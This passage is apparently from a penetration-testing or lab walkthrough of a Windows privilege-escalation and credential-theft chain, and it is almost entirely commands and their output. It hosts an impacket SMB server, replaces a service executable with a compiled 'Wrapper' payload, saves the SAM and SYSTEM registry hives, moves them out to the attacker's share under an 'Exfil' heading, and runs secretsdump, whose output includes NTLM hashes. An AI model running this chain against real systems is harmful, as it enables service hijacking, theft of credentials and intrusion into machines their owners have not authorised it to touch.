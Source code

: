 ```
}
```

`mcs Wrapper.cs`

### Start SMB Server

`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword!`


### Authenticate to Server From Client

`net use \\10.50.85.95\share /USER:user s3cureP@ssword!`

### Copy Wrapper to Machine

`copy \\<attacker_IP>\share\Wrapper.exe %TEMP%\wrapper-al.exe`



### Disconnect From SMB Server

`net use \\10.50.85.95\share /del`



### Copy Wrapper to Service Path

`copy %TEMP%\wrapper-al.exe "C:\Program Files (x86)\System Explorer\System.exe"`


## Dump SAM & SYSTEM Registry Files

```
reg.exe save HKLM\SAM sam.bak
reg.exe save HKLM\SYSTEM system.bak
```

## Exfil

```
net use \\10.50.85.95\share /USER:domain\user s3cureP@ssword!
move sam.bak \\10.50.85.95\share\sam.bak
move system.bak \\10.50.85.95\share\system.bak
```

## Secrets Dump for Hashes

```
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```




